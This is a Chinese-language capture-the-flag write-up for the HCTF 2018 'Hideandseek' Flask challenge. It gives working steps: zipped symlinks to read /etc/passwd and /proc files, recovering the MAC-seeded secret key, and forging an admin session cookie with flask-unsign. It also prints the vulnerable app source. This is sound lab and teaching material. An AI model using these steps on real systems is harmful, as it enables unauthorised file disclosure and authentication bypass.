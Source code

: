 # \[HCTF 2018]Hideandseek

## \[HCTF 2018]Hideandseek

## 考点

* Linux下的ln命令
* Python随机数漏洞
* flask session伪造

## wp

提示先登录，随便输账号密码，比如aaaa/aaaa，提示要上传压缩包

![](<../../.gitbook/assets/image (24).png>)

F12看到session是`eyJ1c2VybmFtZSI6ImFhYWEifQ.FVpCHQ.ekVxiCec35C4f6Dm2G2qW-HES7U`

解码是`{'username': 'aaaa'}`

上传一个压缩包，返回了压缩包中的文件内容，那这里使用`ln`软链接可能有任意文件读取，和[\[SWPU2019\]Web3](swpu2019-web3.md)差不多

* `ln -s /etc/passwd test`
* `zip -ry test.zip test`

![](<../../.gitbook/assets/image (28).png>)

读取`/proc/self/cmdline`，`/proc/self/environ`，`/proc/cmdline`，有用的就只有`/proc/self/environ`

{% code title="/proc/self/environ" %}
```
......
UWSGI_INI=/app/uwsgi.ini
PWD=/app
STATIC_PATH=/app/static
......
```
{% endcode %}

再读取`/app/uwsgi.ini`

```
[uwsgi] 
module=main 
callable=app 
logto=/tmp/hard_t0_guess_n9p2i5a6d1s_uwsgi.log
```

读取`/app/main.py`发现是个假的文件，原题的uwsgi.ini文件如下

```
[uwsgi]
module = hard_t0_guess_n9f5a95b5ku9fg.hard_t0_guess_also_df45v48ytj9_main
callable=app
logto = /tmp/hard_t0_guess_n9p2i5a6d1s_uwsgi.log
```

读取`/app/hard_t0_guess_n9f5a95b5ku9fg/hard_t0_guess_also_df45v48ytj9_main.py`

```python
# -*- coding: utf-8 -*-
from flask import Flask,session,render_template,redirect, url_for, escape, request,Response
import uuid
import base64
import random
import flag
from werkzeug.utils import secure_filename
import os
random.seed(uuid.getnode())
app = Flask(__name__)
app.config['SECRET_KEY'] = str(random.random()*100)
app.config['UPLOAD_FOLDER'] = './uploads'
app.config['MAX_CONTENT_LENGTH'] = 100 * 1024
ALLOWED_EXTENSIONS = set(['zip'])

def allowed_file(filename):
    return '.' in filename and \
           filename.rsplit('.', 1)[1].lower() in ALLOWED_EXTENSIONS


@app.route('/', methods=['GET'])
def index():
    error = request.args.get('error', '')
    if(error == '1'):
        session.pop('username', None)
        return render_template('index.html', forbidden=1)

    if 'username' in session:
        return render_template('index.html', user=session['username'], flag=flag.flag)
    else:
        return render_template('index.html')


@app.route('/login', methods=['POST'])
def login():
    username=request.form['username']
    password=request.form['password']
    if request.method == 'POST' and username != '' and password != '':
        if(username == 'admin'):
            return redirect(url_for('index',error=1))
        session['username'] = username
    return redirect(url_for('index'))


@app.route('/logout', methods=['GET'])
def logout():
    session.pop('username', None)
    return redirect(url_for('index'))

@app.route('/upload', methods=['POST'])
def upload_file():
    if 'the_file' not in request.files:
        return redirect(url_for('index'))
    file = request.files['the_file']
    if file.filename == '':
        return redirect(url_for('index'))
    if file and allowed_file(file.filename):
        filename = secure_filename(file.filename)
        file_save_path = os.path.join(app.config['UPLOAD_FOLDER'], filename)
        if(os.path.exists(file_save_path)):
            return 'This file already exists'
        file.save(file_save_path)
    else:
        return 'This file is not a zipfile'


    try:
        extract_path = file_save_path + '_'
        os.system('unzip -n ' + file_save_path + ' -d '+ extract_path)
        read_obj = os.popen('cat ' + extract_path + '/*')
        file = read_obj.read()
        read_obj.close()
        os.system('rm -rf ' + extract_path)
    except Exception as e:
        file = None

    os.remove(file_save_path)
    if(file != None):
        if(file.find(base64.b64decode('aGN0Zg==').decode('utf-8')) != -1):
            return redirect(url_for('index', error=1))
    return Response(file)


if __name__ == '__main__':
    #app.run(debug=True)
    app.run(host='0.0.0.0', debug=True, port=10008)
```

获取flag的条件是session的username为admin

值得注意的是，它使用了`random.seed(uuid.getnode())`去生成随机数种子，然后设置secret\_key为随机数`app.config['SECRET_KEY'] = str(random.random()*100)`

Python中的random是伪随机数，只要种子是一样的，后面产生的随机数也是一样的

uuid.getnode()是返回当前主机网卡MAC地址的十进制形式，Linux中记录MAC地址的文件是`/sys/class/net/eth0/address`或者 `/etc/sysconfig/network-scripts/ifcfg-eth0`

读取`/sys/class/net/eth0/address`，得到`9e:e1:ac:68:a3:d1`

```
>>> s='9e:e1:ac:68:a3:d1'.replace(':','')
>>> s
'9ee1ac68a3d1'
>>> int(s,16)
174692097369041
```

然后重新跑一下随机数，Python2和3都试一下

{% code title="Python3" %}
```
>>> import random
>>> mac=174692097369041
>>> random.seed(mac)
>>> random.random()*100
75.69105245694635
```
{% endcode %}

然后重新生成session

```
flask-unsign --sign --cookie "{'username': 'admin'}" --secret '75.69105245694635'
eyJ1c2VybmFtZSI6ImFkbWluIn0.Yni6fA.z7e5HN3WUPwOIVRa5fyltNYuG_4
```

这里的随机数考点和[\[CISCN2019 华东南赛区\]Web4](ciscn2019-hua-dong-nan-sai-qu-web4.md)一样。

![](<../../.gitbook/assets/image (25).png>)

## 小结

1. [\[CISCN2019 华东南赛区\]Web4](ciscn2019-hua-dong-nan-sai-qu-web4.md)+[\[SWPU2019\]Web3](swpu2019-web3.md)=本题
